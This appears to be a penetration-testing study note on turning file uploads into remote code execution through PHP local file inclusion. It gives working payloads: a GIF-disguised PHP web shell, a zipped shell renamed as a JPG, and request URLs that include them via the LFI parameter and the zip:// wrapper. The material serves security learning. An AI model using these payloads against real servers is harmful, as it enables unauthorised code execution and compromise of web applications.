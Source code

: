 For LFI to work in file uploads, the file upload form do not need to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` [capabilities](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FRead%20vs%20Execute), then the code within the file we upload will get executed if we include it, regardless of the file extension or file type.

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.
## Crafting Malicious Image
The first step is to create a malicious image file containing a shell code that still looks and works as an image. The file should still include the image magic bytes at the beginning of the file content (i.e `GIF8`), just in case the upload form checks for both the extension and content type as well. For example:
```bash
echo 'GIF8<?php system($_GET["cmd"]) ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Once the malicious file has been uploaded, all we need to do is include it through the LFI vulnerability. To do this, we need to know the path of the uploaded file. In most cases, especially with images, we can get its path from inspecting the source code after uploading the image.
```txt
http://target-website.com/?language=./images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]) ?>' > shell.php && zip shell.jpg shell.php
```
> Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we have uploaded `shell.jpg`, we can include it with the `zip` wrapper as follows:
```txt
http://target-website.com/?language=zip://./images/shell.jpg#shell.php&cmd=id
```